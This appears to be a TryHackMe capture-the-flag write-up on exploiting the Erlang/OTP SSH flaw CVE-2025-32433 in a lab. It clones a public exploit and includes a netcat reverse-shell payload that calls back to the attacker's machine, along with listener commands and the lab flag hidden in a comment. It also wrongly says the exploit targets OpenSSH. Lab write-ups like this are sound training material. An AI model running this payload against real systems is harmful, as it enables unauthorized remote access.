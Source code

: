 # <div align="center">[Erlang/OTP SSH: CVE-2025-32433](https://tryhackme.com/room/erlangotpsshcve202532433)</div>
<div align="center">Learn about and exploit Erlang/OTP SSH CVE-2025-32433 in a lab setup.</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/b452eef7-47a9-4d7c-8d81-766659f06f73" height="200"></img>
</div>

### Task 1. Introduction

Erlang is a programming language made for building reliable, real-time systems that can handle many users at once. It was originally created by Ericsson for telecom use but is now used in many industries to build distributed systems.

OTP (Open Telecom Platform) is a set of tools and libraries that work with Erlang to help build these systems. Even though it started in telecom, OTP is now used more broadly for any kind of distributed application. Together, they're often called Erlang/OTP.

Erlang is used by many companies for product development and by universities for teaching and research.

One part of OTP is the SSH module, which lets Erlang systems use secure shell access and transfer files safely.

Recently, a critical vulnerability (CVE-2025-32433) was found in the Erlang/OTP SSH. It allows attackers to run code on the system without logging in. This issue was discovered by researchers at Ruhr University Bochum and has a CVSS score of 10.0, which means it’s extremely serious.

## Task 2: Exploitation Walkthrough

### Step 1: Reconnaissance

We begin by performing an initial service enumeration using Nmap:

```bash
nmap 10.10.237.184 -sV -sC
```

**Nmap Output Summary:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     Erlang/5.2.9
2222/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9
```

The system is running two SSH services:
- Port **22**: `SSH-2.0-Erlang/5.2.9`
- Port **2222**: `OpenSSH 9.6p1 (Ubuntu)`

---
### Step 2: CVE Exploitation

We will target the outdated OpenSSH service using a public exploit: **CVE-2025-32433**.

Clone the exploit from GitHub:
```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
```

Now, configure the IP and port in the exploit script as per the target:

![Configuring exploit](https://github.com/user-attachments/assets/ce2f79c8-7c53-42c1-aabf-8dc912c4bee4)

Run the exploit:
```bash
python3 CVE-2025-32433.py
```

**Expected Output:**
- Confirmation that the exploit has been sent
- A banner or response from the SSH server
- Confirmation that `/lab.txt` has been written

---
### Step 3: Reverse Shell Execution

To escalate and gain a reverse shell, modify the payload in the exploit to use Erlang's `os:cmd()` for command execution:

![2025-04-25_14-12](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

Replace with:

```erlang
os:cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your Vpn Ip> 8000 >/tmp/f | nc <your Vpn Ip> 4444").
```

![Payload injection](https://github.com/user-attachments/assets/d8275718-5035-4378-b5c9-99a725aaba3b)

Set up two Netcat listeners on the attack machine:

**Terminal 1**:
```bash
nc -lnvp 4444
```

**Terminal 2**:
```bash
nc -lnvp 8000
```

Once executed, you should receive a shell connection:

![Netcat Shell Received](https://github.com/user-attachments/assets/fc348189-b7d1-46c1-9733-7cab7eb73505)

---
### Step 4: Post-Exploitation

Now we are inside the system.

#### Shell Access Confirmation:

![Shell confirmation](https://github.com/user-attachments/assets/3b583013-2a6f-4b94-8cb3-7acf43caeb05)

#### Retrieve User Flag:

```bash
cat flag.txt
```

![Flag](https://github.com/user-attachments/assets/dc62f636-3236-4a85-96a5-353f53825703)
<!--
```
THM{U57U3P5KnR}
``` -->

#### Confirm Hostname:
```bash
uname -a
```

![Hostname](https://github.com/user-attachments/assets/c739d61f-291f-4dfd-9c4c-0bc512aefc9d)

```
c7b79fd068ba
```

